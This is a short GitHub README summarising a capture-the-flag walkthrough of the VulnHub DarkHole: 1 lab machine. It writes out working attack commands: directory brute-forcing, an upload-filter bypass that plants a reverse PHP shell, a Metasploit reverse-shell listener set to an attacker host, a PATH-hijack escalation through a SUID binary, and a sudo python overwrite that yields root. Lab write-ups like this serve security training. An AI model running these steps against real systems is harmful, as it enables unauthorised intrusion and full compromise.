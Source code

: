 # 🌑 DarkHole: 1 CTF – Summary Walkthrough

A text-based walkthrough of the **DarkHole: 1** vulnerable machine from VulnHub. This box highlights **insecure file uploads**, **IDOR flaws**, **SUID abuse**, and **Python script privilege escalation**.

## 🔍 Discovery
- Ran Nmap:
nmap -sV -Pn <ip>

Open ports:
- 22 (SSH)
- 80 (HTTP)

## 📂 Enumeration
- Ran Gobuster:
gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirb/common.txt -x .txt,.log,.php,.html

- Found:
- `/login.php`
- `/logout.php`
- `/dashboard.php`
- `/register.php`
- `/upload`
- Found **IDOR vulnerability** in change password → Logged in as `admin`.

## ⚙️ Foothold
- Used Pentest Monkey reverse PHP shell:
- Renamed `.php` → `.jpg`
- Intercepted upload request with Burp → changed to `.phtml`
- Uploaded successfully to `/upload/shell.phtml`
- Set up listener:
use exploit/multi/handler
set payload cmd/unix/reverse_bash
set LHOST <attacker-ip>
set LPORT <port>
run

- Triggered upload → Reverse shell as `www-data`
- Upgraded shell:
sessions
sessions -u 1

## 💻 User Escalation
- Found SUID binary `toto`:
./toto

Output suggests it runs `system("id")`.
- Created fake `id` binary:
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto

- Horizontal privilege escalation → User `john`

## 🔐 Privilege Escalation
- Found `/home/john/password` → `root123`
- Checked sudo:
sudo -l
(root) /usr/bin/python3 /home/john/file.py

- Overwrote script and executed:
echo 'import os; os.system("/bin/bash")' > /home/john/file.py
sudo /usr/bin/python3 /home/john/file.py

- Root shell obtained

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/darkhole1-vulnhub-ctf-full-technical-walkthrough-283ad8c633ad)
